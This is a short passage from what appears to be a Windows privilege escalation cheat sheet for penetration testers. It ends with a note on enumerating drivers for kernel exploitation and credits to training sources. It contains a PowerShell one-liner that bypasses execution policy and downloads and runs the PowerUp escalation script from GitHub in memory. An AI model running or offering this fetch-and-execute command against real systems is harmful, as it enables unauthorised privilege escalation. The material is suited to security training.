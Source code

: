     powershell -Version 2 -nop -exec bypass IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerUp/PowerUp.ps1'); Invoke-AllChecks



# Kernel-mode exploitation
Identifying and exploiting vulnerabilities in kernel mode code (the kernel itself and device drivers).


## Enumerating third-party drivers
List of device drivers in the system, including vendor information:

    driverquery /SI

-----

# Special Thanks & Original Inspirations 
- This document wouldn't be here if I didn't get some inspirations:
  - fuzzysecurity's ultimate guide for Windows Privilge escalation, which can be found under this [link](http://www.fuzzysecurity.com/tutorials/16.html).
  - g0tmi1k's Basic Linux Privilege Escalation which can be found under this [link](https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/)
  - Peter Kim's Hackers Playbook 2 - Zero to Hero section [link](http://thehackerplaybook.com/dashboard/)
- Offensive Security, which pushed me really hard beyod my limitations during the many hours of training. 
